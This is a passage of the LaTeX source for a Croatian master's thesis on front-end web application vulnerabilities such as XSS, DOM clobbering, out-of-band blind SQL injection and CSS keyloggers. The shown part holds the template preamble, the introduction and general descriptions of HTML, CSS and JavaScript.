% -------------------------------------------------------------------
% Ovo je predložak za izradu završnog rada u LaTeXu. Predložak je nastao
% modificiranjem predloška za izradu doktorske disertacije kojeg su 
% napravili:
% Author: Toni Perković, toperkov@fesb.hr, toperkov@unist.hr
% Author: Marin Bugarić, mbugaric@fesb.hr
% Author: Ivo Stančić, istancic@fesb.hr
% modificirao: Ivan Tomac, itomac@fesb.hr
% FESB 2017;
% -------------------------------------------------------------------
 
%%%%%%%%%%%%%%%%%%%%%%%%% POSTAVKE / SETTINGS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\documentclass[12pt, oneside, onecolumn]{book}
\usepackage[a4paper, top=2.5cm, bottom=2.5cm, left=2.5cm, right=2.5cm]{geometry}
%\usepackage{a4wide}
%\usepackage{latexsym}
\usepackage{comment}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{epsfig}
\usepackage{makeidx}
\usepackage{subfigure}
\usepackage{ifthen}
\usepackage{algorithmic}
\usepackage{algorithm}
\usepackage{enumerate}
\usepackage{txfonts}
\usepackage{multirow}
\usepackage{setspace}
\usepackage{tabularx}
\usepackage{colortbl}
\usepackage{hhline}
\usepackage{float}
%\usepackage{tikz}
%\usepackage{pgfplots}
\usepackage{paralist}
\usepackage{rotating}
\usepackage[utf8]{inputenc}
\usepackage[croatian]{babel}
\usepackage[croatian]{babelbib}
\usepackage[T1]{fontenc}
\usepackage{pslatex}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{pdfpages}
\usepackage{siunitx}
\usepackage{lipsum}
\usepackage[absolute]{textpos}
\setlength{\TPHorizModule}{10mm}
\setlength{\TPVertModule}{\TPHorizModule}
\textblockorigin{0mm}{0mm}

%za ubacit točke u naslove
\usepackage{titlesec}
\usepackage[nottoc,notlot,notlof]{tocbibind} 
\titleformat{\chapter}{\normalfont\Large\bfseries\raggedright}{\thechapter.}{1em}{} 
\titleformat{\section}{\normalfont\Large\bfseries\raggedright}{\thesection.}{1em}{} 
\titleformat{\subsection}{\normalfont\large\bfseries\raggedright}{\thesubsection.}{1em}{} 
\titleformat{\subsubsection}{\normalfont\normalsize\bfseries\raggedright}{\thesubsubsection.}{1em}{}

\usepackage{enumitem}


%Za veličinu teksta u sadržaju
%\usepackage[subfigure]{tocloft}
%\renewcommand{\cftchapfont}{\large\bfseries\raggedright} %bez boldanja \bfseries
%\renewcommand{\cftsecfont}{\large\bfseries}
%\renewcommand{\cftsubsecfont}{\bfseries}


\usepackage[subfigure]{tocloft}
\usepackage{tocloft}

\renewcommand\cftloftitlefont{\LARGE\bfseries}  
\renewcommand\cftfigfont{\em}
\renewcommand\cftlottitlefont{\LARGE\bfseries}
\renewcommand\cfttabfont{\em}
\renewcommand\cfttoctitlefont{\LARGE\bfseries}

\titleformat{\chapter}
    [block]{\normalfont\bfseries\Large}{\rlap{\thechapter.}}{0em}
    {\hspace*{.05\textwidth}\begin{minipage}[t]{.9\textwidth}\raggedright}[\end{minipage}]


%
\let \savenumberline \numberline
\def \numberline#1{\savenumberline{#1.}}

%za ubacit literaturu u sadržaj
\usepackage[nottoc,notlot,notlof]{tocbibind}

%POCETAK ZA KLIKANJE REFERENCI
\definecolor{cite}{rgb}{0,0,0.8}% blue
\definecolor{link}{rgb}{0,0,0.8}%

\usepackage[linktocpage=true]{hyperref}
\hypersetup{
	colorlinks=true,
  linkcolor  = link,
  citecolor  = cite,
  urlcolor   = link,
  colorlinks = true,
}
\usepackage{bookmark}
\usepackage{hypdestopt}
%\setcounter{tocdepth}{2}
%\setcounter{secnumdepth}{2}
%KRAJ ZA KLIKANJE REFERENCI

\usepackage[font={it},center]{caption}

\usepackage{placeins}

\raggedbottom

		
%Counter
\usepackage{etoolbox}
\renewcommand{\theequation}{\arabic{equation}} % Da numeracija jednadzbi bude (1), (2), ...

\newcounter{citenum}
\def\oldcite{}
\let\oldcite=\bibcite
\def\bibcite{\stepcounter{citenum}\oldcite}

\newcounter{totfigures}
\newcounter{tottables}
\newcounter{totequations}

\makeatletter
\AtEndDocument{%
  \addtocounter{totfigures}{\value{figure}}%
  \addtocounter{tottables}{\value{table}}%
  \addtocounter{totequations}{\value{equation}}%
  \immediate\write\@mainaux{%
    \string\gdef\string\totfig{\number\value{totfigures}}%
    \string\gdef\string\tottab{\number\value{tottables}}%
    \string\gdef\string\toteq{\number\value{totequations}}%
    \string\gdef\string\totcite{\number\value{citenum}}%
  }%
}
\makeatother

\pretocmd{\chapter}{\addtocounter{totfigures}{\value{figure}}\setcounter{figure}{0}}{}{}
\pretocmd{\chapter}{\addtocounter{tottables}{\value{table}}\setcounter{table}{0}}{}{}
\pretocmd{\chapter}{\addtocounter{totequations}{\value{equation}}\setcounter{equation}{0}}{}{}

\onehalfspacing

%dodavanje praznog redka između paragrafa
\setlength{\parskip}{1em}

%\makeindex%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{document}

\frontmatter \pagestyle{plain}

%\include{tikzSymbols}

\includepdf[pages={1}]{01_naslov.pdf}

\includepdf[pages={1}]{zdk1.pdf}

\includepdf[pages={1}]{04_izjava.pdf}
%\includepdf[pages={1}]{05_OcjenaNastavnaBaza_preddiplomski.pdf}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% TOC %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\tableofcontents
\setcounter{tocdepth}{3}

\sloppypar{

\mainmatter
%\pagestyle{myheadings}
%\pagestyle{plain}

%%%%%%%%%%%%%%%%%%%%%%%% POGLAVLJA / CHAPTERS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\chapter{UVOD}
Diplomski rad obuhvaća pronalazak front-end ranjivosti web aplikacija, njihovo zloupotrebljavanje te predlaganje mjera zaštite kako bi se navedene ranjivosti otklonile. Ranjivosti koje ovaj diplomski rad obuhvaća su:

\begin{itemize}
\item XSS napad preko upravitelja lozinki
\item DOM-clobbering
\item slijepi SQLi s izvlačenjem podataka izvan komunikacijskog kanala (eng. out-of-band)
\item XSS ranjivost u ASP .NET-u
\item CSS keylogger
\end{itemize}

Front-end ranjivosti web aplikacija koje su opisane u ovom diplomskom radu proizlaze iz softverskih okvira (eng. framework) pomoću kojih su napravljene web aplikacije, npr. React ili ASP. NET framework. Pored softverskih okvira, ranjivosti mogu proizaći iz baze podataka koju web aplikacija koristi u pozadini, koja se može zloupotrijebiti preko front-enda web aplikacije. Ranjivosti također mogu biti uzrokovane načinom na koji je web aplikacija izgrađena, odnosno ranjivosti mogu nastati zbog provođenja loših dizajnerskih uzoraka (eng. designe patterns). Pored navedenih izvora, ranjivosti mogu proizaći iz temeljnih tehnologija na kojima se zasnivaju web stranice, kao npr. HTML, CSS i JavaScript. U nekim situacijama ranjivosti se ne javljaju zbog loše implementacije navedenih tehnologija, već zbog njihove loše interpretacije od strane web preglednika.

U sljedećem poglavlju su opisane tehnologije i alati koji su korištene prilikom izrade ovog diplomskog rada u koje spadaju: HTML, CSS te JavaScript kao osnovne tehnologije na kojima se zasnivaju web stranice zatim ExpressJS softverski okvir za JavaScript, ASP .NET platforma za izradu opsežnih web aplikacija, PHP serverski skriptni jezik, Wireshark alat za analizu mrežnih paketa, Kali Linux operacijski sustav za pen testiranje, tcpdump alat za analizu mrežnih podataka iz komandne linije te MS SQL relacijska baza podataka.

Treće poglavlje sadrži opis tipova napada i ranjivosti koji su obrađeni u ovom diplomskom radu. Svaki tip napada je opisan, zajedno s primjerima izvođenja takvih napada te metodama obrane od istih. Neki od navedenih tipova napada se mogu podijeliti na daljnje podtipove koji su također opisani. Tipovi napada koji ovaj diplomski rad obrađuje su Cross Site Scripting, DOM clobbering, SQL injection te keylogger-i.

U četvrtom poglavlju su detaljno opisni pojedine pronađene ranjivosti, način funkcioniranja web stranica koje su korištene za demonstraciju napada, metode i tehnike korištene prilikom izvođenja napada te načini prevencije opisanih napada.

Na kraju diplomskog rada nalaze se zaključak zatim literatura, koja je korištena u izradi ovog rada, popis oznaka i kratica te naposljetku sažetak s ključnim riječima.

\chapter{KORIŠTENE TEHNOLOGIJE I ALATI}
U ovom poglavlju su opisani alati i tehnologije koje su korištene prilikom izvođenja napada. Korištene tehnologije i alati su: 

\begin{itemize}
\item HTML
\item CSS
\item JavaScript
\item ExpressJS
\item ASP .NET
\item Wireshark
\item Kali Linux
\item tcpdump
\item BIND
\item Microsoft SQL Server
\item PHP
\end{itemize}

\section{HTML}
HTML je najšire korišten jezik na internetu za razvoj web stranica. HTML je stvorio Berners-Lee 1991. iako je prva standardna specifikacija jezika objavljena 1995. godine.
Danas se koristi HTML-5 verzija jezika koja je nadogradnja na prethodnu verziju. HTML se ne može smatrati programskim jezikom jer se njime ne mogu izvršiti niti najjednostavnije logičke radnje, već se HTML može nazvati opisnim jezikom. Iako je originalno namijenjen za strukturiranje znanstvenih dokumenata, time što bi definirao zaglavlja, tablice i paragrafe, danas se HTML koristi za opisivanje strukture web stranica pomoću oznaka (eng. HTML tag) koje pruža HTML jezik. Osim strukturiranje dokumenta, HTML pruža oznake kojima je moguće prelaziti s jedne stranice na drugu \cite{html}.

\section{CSS}
CSS je jednostavan jezik namijenjen za stiliziranje izgleda web stranica napisane pomoću HTML ili XHTML jezika. CSS pruža mogućnost kontrole boje teksta, odabira fontova, uređivanja razmaka između paragrafa, uređivanja rasporeda i veličine stupaca, odabira pozadine, uređivanje rasporeda elementa na stranici, prikazivanja različitog dizajna s obzirom na uređaj na kojem se web stranica prikazuje itd. CSS pruža mogućnost uređivanja boje, pozadina, fontova, teksta, slika, poveznica ili linkova, tablica, rubova (eng. borders), margina, listi, punjenja (eng. padding), kursora, obrisa (eng. outline), trake za pomicanje (eng. scrollbar). Neki od navedenih načina uređivanja, poput boje i pozadine, se mogu primijeniti na više tipova HTML elementa, a ne samo na tekstualne elemente. Dodatne mogućnosti koje CSS podržava su: 

\begin{itemize}
\item Zaobljeni rubovi
\item Postavljanje slike za pozadinu rubova
\item Podržavanje različitih prostora boja kao što su RGB, RGBA, HSL itd.
\item Gradijenti boja
\item Sjene
\item Web fontovi
\item 2d i 3d transformacije
\item Animacije
\item Određivanje visine i širine elemenata
\item Relativno pozicioniranje elemenata
\item Slojevi
\item Pseudo klase i pseudo elementi, koji ma se modificiraju određeni selektori
\item @pravila (eng. @rules) koja imaju posebne funkcionalnosti
\end{itemize}

CSS za rukovanje navedenim metodama oblikovanja dizajna web stranice omogućava korištenje različitih mjernih jedinica koje se dijele na apsolutne i relativne. Apsolutne mjerne jedinice su cm-centimetri, mm-milimetri, in-inči, px-pikseli, pt-točke (eng. points) i pc-picas. Pod relativne mjerne jedinice spadaju: 

\begin{itemize}
\item em - relativan u odnosu na veličinu fonta
\item ch - relativan u odnosu na širinu "0"
\item rem - relativan u odnosu na veličinu fonta korijenskog elementa (eng. root element)
\item vw - iznosi 1\% širine prozora web preglednika
\item vh - iznosi 1\% visine prozora web preglednika
\item vmin - iznosi 1\% najmanje dimenzije prozora web preglednika
\item vmax - iznosi 1\% najveće dimenzije prozora web preglednika
\item \% - relativan i odnosi na veličinu roditeljskog elementa
\end{itemize}

Svi navedeni načini uređivanja se mogu primijeniti na jedan HTML element, označen jedinstvenim id nazivom. jedno CSS pravilo se može primijeniti na više HTML elemenata koji su dio iste klase \cite{css_tut}.

\section{JavaScript}
JavaScript je interpretativni programski jezik s prvorazrednim funkcijama (eng. first-class functions) te je najbolje poznat kao skriptni jezi za web stranice, iako se koristi i u programskim okruženjima van web preglednika. JavaScript je dinamičan, jednodretveni jezik koji podržava objektno-orijentirani, imperativni i funkcionalni način programiranja. JavaScript posjeduje sintaksu koja je slična programskim jezicima Java i C++ kako bi se smanjio broj novih koncepata koje je potrebno za naučiti, stoga funkcionalnosti kao što su petlje, uvjetne naredbe (eng. if statement), switch i try catch blokovi. Pored navedenih, JavaScript sadrži i neke druge funkcionalnosti koje se mogu naču i u drugim jezicima, kao što su:

\begin{itemize}
\item Varijable
\item Operatori
\item Kontrola petlji 
\item Funkcije
\item Klase
\item Događaji (eng. events)
\item Različiti tipovi varijabli
\end{itemize}

Kao jedan od najraširenijih programskih jezika za izradu front-end-a i back-end-a opseg primjene ovog jezika je velik. Neke od čestih primjena ovog jezika prilikom izrade web aplikacije su:

\begin{itemize}
\item Server aplikacije korištenjem dostupnih JavaScript biblioteka
\item Validacija ulaznih podataka na klijentskoj strani aplikacije
\item Neometano dohvaćanje podataka iz baze
\item Dinamičke korisničke obavijesti
\end{itemize}

Pored svega navedenog, najveću prednost koju JavaScript posjeduje naspram drugih programskih jezika, pogotovo u području izrade web aplikacija, je veliki broj biblioteka i softverskih okvira od kojih su najpoznatiji \cite{js}, \cite{ajs}

\begin{itemize}
\item Angular
\item React
\item Vue.js
\item Ext.js
\item Node.js
\item Meteor
\item jQuery
